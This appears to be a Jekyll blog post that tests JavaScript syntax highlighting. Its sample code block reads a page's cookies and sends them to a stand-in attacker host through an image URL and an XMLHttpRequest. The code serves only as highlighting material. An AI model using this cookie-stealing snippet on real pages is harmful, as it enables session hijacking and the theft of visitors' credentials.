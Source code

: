 ```yaml
---
layout: post
title: JavaScript Syntax Highlighting
subtitle: possible upstream bug
---
```


This is a codeblock.

{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://thisisrude.com/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user.

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://thisisrude.com/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

